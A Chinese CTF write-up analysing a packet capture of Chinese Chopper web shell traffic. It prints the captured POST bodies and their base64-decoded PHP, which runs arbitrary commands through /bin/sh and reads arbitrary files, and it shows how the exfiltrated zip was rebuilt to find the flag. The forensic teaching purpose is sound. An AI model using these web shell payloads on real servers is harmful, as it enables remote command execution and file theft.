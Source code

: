 # 流量分析简记

### ——记一次CTF中的流量分析

源于学院内ctf训练营期末考试原题

首先拿到一个zip内部仅有wireshark抓包文件，打开后查看抓包文件如下图

![image-20210722133338551](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Analyze1.png)

由于题目提示为菜刀连接的特征，因而寻找POST请求发现如下图

![image-20210722133612415](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Analyze2.png)

可以看到有两个包长度与其他包不同，则对于长度不同的两个包分别分析，首先是第一个包体（截取关键字段）：

![image-20210722133825706](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Analyze3.png)

```
Form item: "cmd" = "@eval(base64_decode($_POST[z0]));"
Form item: "z0" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyAneyRzfSciOiIvYyB7JHN9Ijskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIpOztlY2hvKCJ8PC0iKTtkaWUoKTs="
Form item: "z1" = "L2Jpbi9zaA=="
Form item: "z2" = "Y2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkLyI7emlwIC1QIGluZGV4cGhwIGZpbGUgdGVzdC5wbmcgcmVhZG1lO2VjaG8gW1NdO3B3ZDtlY2hvIFtFXQ=="
```

可以看出`z0`、`z1`、`z2`三个均为base64加密过的一些数据，对其分别进行解密可得：

```
z0 = 
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
;
$p=base64_decode($_POST["z1"]);
$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c '{$s}'":"/c {$s}";$r="{$p} {$c}";
@system($r." 2>&1");;echo("|<-");die();

z1 = /bin/sh

z2 = cd "/var/www/html/upload/";zip -P indexphp file test.png readme;echo [S];pwd;echo [E]
```

不难看出，`z0`内部定义了`$p`和`$s`，值分别为`z1`和`z2`。`$c`的意图为检验首位是否为`/`，即判断是否绝对地址，若非绝对地址则`$c`开头为`/c`，并没有查到`/bin/sh /c`有什么用，而且在shell内部也报错。初步判断该段指令为将`/var/www/html`内的`readme`和`test.png`压缩成`file.zip`且密码为indexphp。

接下来分析第二个特殊长度的包体：

```
Form item: "cmd" = "@eval(base64_decode($_POST[z0]));"
Form item: "z0" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7"
Form item: "z1" = "/var/www/html/upload/file.zip"
```

进行base64解码后可得：

```
z0 = 
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
;
$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");
if(@fgetc($fp)){
	@fclose($fp);
	@readfile($F);
}
else{
	echo("ERROR:// Can Not Read");
}
;
echo("|<-");
die();

z1 = "/var/www/html/upload/file.zip"
```

不难看出第二个包体的内容是读取`file.zip`，因而通过追踪该http包的http流可得到`file.zip`的二进制内容，通过winhex组装后得到最终的`file.zip`包体。解压后发现readme中的flag。

* ### 小结

  在流量分析中读取以及上传的文件内容都会被流量所记录，因而流量分析中可以通过字节流进行组装从而完成重要文件的还原。
